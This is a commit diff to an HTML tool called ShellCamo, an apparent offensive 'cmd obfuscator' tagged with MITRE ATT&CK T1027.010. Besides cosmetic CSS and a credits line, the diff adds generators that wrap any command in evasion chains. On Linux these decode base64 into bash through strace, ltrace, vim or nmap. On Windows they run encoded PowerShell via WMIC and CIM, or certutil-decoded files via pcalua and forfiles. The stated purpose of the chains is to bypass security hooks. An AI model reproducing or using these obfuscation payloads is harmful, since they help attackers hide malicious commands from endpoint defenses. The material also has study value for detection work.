

Before and after one commit to giriaryan694-a11y/ShellCamo, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (158-1121 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -31,9 +31,21 @@
 
         .container { max-width: 900px; margin: 0 auto; }
 
+        .banner {
+            text-align: center;
+            font-size: 0.7rem;
+            color: var(--muted);
+            background: var(--surface-alt);
+            padding: 5px;
+            border: 1px solid var(--border);
+            letter-spacing: 1.5px;
+            text-transform: uppercase;
+            margin-bottom: 20px;
+        }
+
         header {
             border-bottom: 1px solid var(--border);
-            padding-bottom: 10px;
+            padding-bottom: 15px;
             margin-bottom: 25px;
         }
 
@@ -42,6 +54,22 @@
             font-weight: normal;
             color: var(--text);
             letter-spacing: -0.5px;
+        }
+
+        .credits {
+            text-align: right;
+            font-size: 0.8rem;
+            color: var(--muted);
+            margin-top: 8px;
+        }
+
+        .credits a {
+            color: var(--accent);
+            text-decoration: none;
+        }
+
+        .credits strong {
+            color: var(--green);
         }
 
         label {
@@ -189,8 +217,14 @@
 </head>
 <body>
     <div class="container">
+        <div class="banner">
+            authorized use only // local execution // MITRE ATT&CK T1027.010
+        </div>
         <header>
             <h1>shellcamo // cmd obfuscator</h1>
+            <div class="credits">
+                Made By <strong>Aryan Giri</strong> | <a href="https://github.com/giriaryan694-a11y" target="_blank">giriaryan694-a11y</a>
+            </div>
         </header>
 
         <section class="input-section">
@@ -250,7 +284,6 @@
             const code = card.dataset.payloadCode;
             if (!code) return;
 
-            // Fixed: Proper decoding for non-ASCII characters
             const decoded = decodeURIComponent(escape(atob(code)));
 
             navigator.clipboard.writeText(decoded).then(() => {
@@ -350,6 +383,13 @@
             payloads.push({ name: 'ltrace (Wrapper)', tag: 'LOLBin', description: 'Executes under ltrace to bypass userland hooks', code: `ltrace -o /dev/null ${cmd}` });
             payloads.push({ name: 'env (Prefix)', tag: 'LOLBin', description: 'Executes via env to bypass command-line parsing rules', code: `env ${cmd}` });
 
+            // --- HYBRID TECHNIQUES (LOLBins + Encoding) ---
+            payloads.push({ name: 'strace + Base64', tag: 'Hybrid', description: 'Bypasses userland hooks while decoding base64 in memory', code: `strace -o /dev/null bash -c "echo '${btoa(cmd)}' | base64 -d | bash"` });
+            payloads.push({ name: 'strace + Hex', tag: 'Hybrid', description: 'Bypasses userland hooks while evaluating ANSI-C hex escapes', code: `strace -o /dev/null eval $'${toHex(cmd)}'` });
+            payloads.push({ name: 'ltrace + Base64', tag: 'Hybrid', description: 'Bypasses library call hooks while decoding base64 payload', code: `ltrace -o /dev/null bash -c "echo '${btoa(cmd)}' | base64 -d | bash"` });
+            payloads.push({ name: 'vim + Base64', tag: 'Hybrid', description: 'Spawns shell via vim ex mode, decoding base64 payload dynamically', code: `vim -c ':!echo ${btoa(cmd)} | base64 -d | bash' -c ':q'` });
+            payloads.push({ name: 'nmap + Base64 (Lua)', tag: 'Hybrid', description: 'nmap Lua engine executes a base64 decoded shell command', code: `nmap --script <(echo 'os.execute("echo \\"${btoa(cmd)}\\" | base64 -d | bash")')` });
+
             return payloads;
         }
 
@@ -372,6 +412,10 @@
             payloads.push({ name: 'CimInstance (Modern WMI)', tag: 'LOLBin', description: 'Executes via CIM (modern WMI)', code: `Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine="${safeCmd}"}` });
             payloads.push({ name: 'Bash (WSL)', tag: 'LOLBin', description: 'Executes via WSL bash if installed', code: `bash.exe -c "${safeCmd}"` });
 
+            // --- HYBRID TECHNIQUES (LOLBins + Encoding) ---
+            payloads.push({ name: 'WMIC + EncodedCommand', tag: 'Hybrid', description: 'Spawns process via WMI, executing Encoded PowerShell payload', code: `wmic process call create "powershell.exe -e ${toPowerShellBase64(cmd)}"` });
+            payloads.push({ name: 'CimInstance + Encoded', tag: 'Hybrid', description: 'Modern WMI execution of an Encoded PowerShell payload', code: `Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine="powershell.exe -enc ${toPowerShellBase64(cmd)}"}` });
+
             return payloads;
         }
 
@@ -389,6 +433,18 @@
             payloads.push({ name: 'wmic (Process Create)', tag: 'LOLBin', description: 'Spawns process via WMI command line', code: `wmic process call create "${safeCmd}"` });
             payloads.push({ name: 'sc (Service Create)', tag: 'LOLBin', description: 'Creates and starts a temporary service (requires admin)', code: (() => { const sName = `sys${rndInt(10,99)}`; return `sc create ${sName} binPath= "${safeCmd}" && sc start ${sName} && sc delete ${sName}`; })() });
             payloads.push({ name: 'pcalua (Compat Assistant)', tag: 'LOLBin', description: 'Executes via Program Compatibility Assistant', code: `pcalua.exe -a "${safeCmd}"` });
+
+            // --- HYBRID TECHNIQUES (LOLBins + Encoding) ---
+            payloads.push({ name: 'pcalua + Base64 (certutil)', tag: 'Hybrid', description: 'Program Compatibility Assistant decodes and runs base64 via certutil', code: (() => {
+                const b64 = btoa(cmd);
+                const id = rndInt(100,999);
+                return `pcalua.exe -a "cmd /c echo ${b64} > %TEMP%\\b${id}.txt && certutil -decode %TEMP%\\b${id}.txt %TEMP%\\c${id}.txt >nul && cmd /c %TEMP%\\c${id}.txt"`;
+            })() });
+            payloads.push({ name: 'forfiles + Base64', tag: 'Hybrid', description: 'forfiles executes base64 decoded command via cmd', code: (() => {
+                const b64 = btoa(cmd);
+                const id = rndInt(100,999);
+                return `echo ${b64} > %TEMP%\\b${id}.b64 && certutil -decode %TEMP%\\b${id}.b64 %TEMP%\\c${id}.txt >nul && forfiles /p %TEMP% /m c${id}.txt /c "cmd /c @file"`;
+            })() });
 
             return payloads;
         }
```
